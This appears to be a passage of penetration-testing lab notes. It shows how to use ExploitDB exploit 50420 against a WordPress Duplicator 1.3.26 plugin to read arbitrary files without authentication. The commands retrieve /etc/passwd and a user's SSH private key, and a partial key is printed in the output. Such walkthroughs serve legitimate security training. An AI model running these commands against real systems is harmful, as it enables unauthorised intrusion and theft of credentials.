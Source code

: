 Let's copy the Python script to the **/home/kali/beyond/websrv1** directory using SearchSploit's **-m** option with the ExploitDB ID
```
kali@kali:~/beyond$ cd beyond/websrv1

kali@kali:~/beyond/websrv1$ searchsploit -m 50420
  Exploit: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50420
     Path: /usr/share/exploitdb/exploits/php/webapps/50420.py
File Type: ASCII text

Copied to: /home/kali/beyond/websrv1/50420.py
```

To use the script, we have to provide the URL of our target and the file we want to retrieve
+ Let's attempt to read and display the contents of **/etc/passwd** both to confirm that the target is indeed vulnerable and to obtain user account names of the system
```
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
daniela:x:1001:1001:,,,:/home/daniela:/bin/bash
marcus:x:1002:1002:,,,:/home/marcus:/bin/bash
```
+ We successfully obtained the contents of **/etc/passwd** and identified two user accounts, _daniela_ and _marcus_. Let's add them to **creds.txt**

As we have learned in the _Common Web Application Attacks_ Module, there are several files we can attempt to retrieve via Directory Traversal in order to obtain access to a system
+ One of the most common methods is to retrieve an SSH private key configured with permissions that are too open

In this example, we'll attempt to retrieve an SSH private key with the name **id_rsa**
+ The name will differ depending on the specified type when creating an SSH private key with _ssh-keygen_
+ For example, when choosing _ecdsa_ as the type, the resulting SSH private key is named **id_ecdsa** by default

Let's check for SSH private keys with the name **id_rsa** in the home directories of _daniela_ and _marcus_
```
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/marcus/.ssh/id_rsa
Invalid installer file name!!

kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBAElTUsf
3CytILJX83Yd9rAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDwl5IEgynx
KMLz7p6mzgvTquG5/NT749sMGn+sq7VxLuF5zPK9sh//lVSxf6pQYNhrX36FUeCpu/bOHr
tn+4AZJEkpHq8g21ViHu62IfOWXtZZ1g+9uKTgm5MTR4M8bp4QX+T1R7TzTJsJnMhAdhm1
...
UoRUBJIeKEdUlvbjNuXE26AwzrITwrQRlwZP5WY+UwHgM2rx1SFmCHmbcfbD8j9YrYgUAu
vJbdmDQSd7+WQ2RuTDhK2LWCO3YbtOd6p84fKpOfFQeBLmmSKTKSOddcSTpIRSu7RCMvqw
l+pUiIuSNB2JrMzRAirldv6FODOlbtO6P/iwAO4UbNCTkyRkeOAz1DiNLEHfAZrlPbRHpm
QduOTpMIvVMIJcfeYF1GJ4ggUG4=
-----END OPENSSH PRIVATE KEY-----
```
+ Above shows that we have successfully retrieved the SSH private key of _daniela_ 
+ Let's save the key in a file named **id_rsa** in the current directory

